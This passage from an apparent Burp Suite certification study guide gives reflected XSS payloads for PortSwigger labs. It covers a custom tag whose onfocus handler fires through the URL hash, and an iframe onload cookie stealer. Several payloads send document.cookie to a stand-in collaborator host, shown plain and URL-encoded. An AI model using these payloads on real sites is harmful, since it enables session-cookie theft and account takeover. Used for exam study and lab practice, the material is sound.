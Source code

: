 ```html
<xss+id=x>#x';
```

_**Identify**_ if above custom tag is not block in search function, by observing the response. Create below payload to steal session cookie out-of-band.

```
<script>
location = 'https://TARGET.net/?search=<xss+id=x+onfocus=document.location='https://OASTIFY.COM/?c='+document.cookie tabindex=1>#x';
</script>
```

> **Note:** The custom tag with the ID `x`, which contains an **onfocus** event handler that triggers the `document.location` function. The **HASH** `#` character at the end of the URL focuses on this element as soon as the page is loaded, causing the payload to be called. Host the payload script on the exploit server in `script` tags, and send to victim. Below is the same payload but **URL-encoded** format.

```
<script>
location = 'https://TARGET.net/?search=%3Cxss+id%3Dx+onfocus%3Ddocument.location%3D%27https%3A%2F%2FOASTIFY.COM%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```

[![Custom XSS tag](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/custom-xss-tag.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/custom-xss-tag.png)

[PortSwigger Lab: Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)

[z3nsh3ll - explaining custom tags for XSS attacks](https://youtu.be/sjs6RS7lURk)

### OnHashChange

> Below iframe uses **HASH** `#` character at end of the URL to trigger the **OnHashChange** XSS cookie stealer.

```js
<iframe src="https://TARGET.net/#" onload="document.location='http://OASTIFY.COM/?cookies='+document.cookie"></iframe>
```

> Note if the cookie is secure with **HttpOnly** flag set enabled, the cookie cannot be stolen using XSS.

> PortSwigger Lab payload perform print.

```js
<iframe src="https://TARGET.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

> Note: _**Identify**_ the vulnerable jquery 1.8.2 version included in the `source code` with the CSS selector action a the **hashchange**.
